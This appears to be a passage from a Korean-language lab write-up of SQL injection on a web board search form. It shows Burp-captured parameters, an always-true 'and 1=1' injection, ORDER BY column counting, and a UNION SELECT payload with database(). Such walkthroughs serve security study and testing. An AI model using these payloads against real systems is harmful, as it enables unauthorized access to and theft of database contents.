 Burp Suite를 통해 게시판 검색 요청을 확인해보니, 다음과 같은 파라미터가 POST 방식으로 전달되고 있었다.

```html
option_val=username
board_result=1111
```

이를 통해 내부 SQL 쿼리는 다음과 같은 구조로 동작하는 것으로 추정된다.

```sql
SELECT ? FROM ? WHERE username LIKE '%1111%';
```

우선 `option_val` 파라미터에 `and` 조건을 삽입하여 SQL 인젝션을 시도해보았다.

```sql
username and '1'='1'#
```

![and 결과](/assets/screenshots/sqli-point/sqli_7_and.png)

이를 통해 내부 쿼리가 항상 **참**이 되도록 만들어, 모든 게시물이 필터링 없이 노출되는 현상을 확인할 수 있었다.

위 Injection 포인트를 기반으로, `ORDER BY` 문을 활용하여 해당 쿼리의 컬럼 개수를 확인하였다.

```sql
username order by 10#
```

- **컬럼 개수: 10개**

```sql
username union select database(),2,3,4,5,6,7,8,9,10#
```
